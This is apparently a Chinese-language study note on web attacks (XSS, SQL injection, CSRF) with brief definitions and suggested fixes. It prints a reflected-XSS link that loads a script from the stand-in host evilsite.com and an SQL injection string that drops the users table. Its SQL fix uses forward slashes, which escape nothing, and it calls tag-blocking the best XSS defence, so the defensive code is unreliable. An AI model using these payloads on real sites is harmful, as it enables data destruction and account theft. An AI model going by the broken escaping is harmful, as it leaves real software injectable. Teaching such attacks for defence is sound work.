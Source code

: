 ## XSS攻击（跨站脚本）
基本定义：XSS 是一个术语，用来描述一类允许攻击者通过网站将客户端脚本代码注入到其他用户的浏览器中的攻击手段。  
> 例如拿到一个用户的cookie来获得用户个人隐私信息。

通常分为两类：反射型和持久性XSS

- 反射型XSS

反射型 XSS 攻击发生在当传递给服务器的用户数据被立即返回并在浏览器中原样显示的时候——当新页面载入的时候原始用户数据中的任何脚本都会被执行！ 举个例子，假如有个站点搜索函数，搜索项被当作 URL 参数进行编码，这些搜索项将随搜索结果一同显示。攻击者可以通过构造一个包含恶意脚本的搜索链接作为参数（例如 http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>），然后把链接发送给另一个用户。如果目标用户点击了这个链接，当显示搜索结果时这个脚本就会被执行。正如上述讨论的，这促使攻击者获取了所有需要以目标用户进入站点的信息——可能会购买物品或分享联系人信息。

- 持久型 XSS 攻击：

恶意脚本存储在站点中，然后再原样地返回给其他用户，在用户不知情的情况下执行。 举个例子，接收包含未经修改的 HTML 格式评论的论坛可能会存储来自攻击者的恶意脚本。这个脚本会在评论显示的时候执行，然后向攻击者发送访问该用户账户所需的信息。这种攻击类型及其常见而且有效，因为攻击者不需要与受害者有任何直接的接触。 尽管 POST 和 GET 方式获取到的数据是 XSS 攻击最常见的攻击来源，任何来自浏览器的数据都可能包含漏洞（包括浏览器渲染过的 Cookie 数据以及用户上传和显示的文件等）.
解决方案：防范 XSS 攻击的最好方式就是删除或禁用任何可能包含可运行代码指令的标记。对 HTML 来说，这些包括类似<script>, <object>, <embed>,和 <link> 的标签。

## SQL注入
SQL 注入漏洞使得恶意用户能够通过在数据库上执行任意 SQL 代码，从而允许访问、修改或删除数据，而不管该用户的权限如何。成功的注入攻击可能会伪造身份信息、创建拥有管理员权限的身份、访问服务器上的任意数据甚至破坏/修改数据使其变得无法使用。
简单来说就是在本来执行的SQL语句中加入攻击者的SQL，从而操作数据库。
像是这样
```sql
SELECT * FROM users WHERE name = 'a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't';
```
本来我们只是想接收一个用户名，然后攻击者通过;,来执行一段它插入的SQL，造成攻击。

解决方案：我们可以对用户输入的特殊字符进行转义，比如对输入的' 或者 &quot;进行转义，让SQL执行时，被认为用户输入的是一个完完全全的字符串。
```sql
SELECT * FROM users WHERE name = 'a/';DROP TABLE users; SELECT * FROM userinfo WHERE /'t/' = /'t';
```
这样就可以解决SQL注入的风险了。

## 跨站请求伪造（CSRF）
CSRF 攻击允许恶意用户在另一个用户不知情的情况下利用其身份信息执行操作。
这个还是比较变态，攻击者伪造一个比如POST请求，放在一个按钮里面，其它一旦点击，就像你在该网站实际操作一样，他就会发起一个请求，比如是转账之类的（当然转账的网站没有这么鸡肋），就完成了这个操作，用户完全不知道他干了什么，就像什么也没有发生，如果服务器要本地的cookie信息，因为是网站用户自己的浏览器，当然储存着这些信息，请求顺利完成。
解决方案：可以在每次发请求时，由请求的站点生成一个特殊的密钥（网站本身，如果是伪造的，在那个发请求的网站不会生成这样一个密钥，自然就组织了这场交易），验证用户安全。

常见其他攻击：DDos，命令行注入

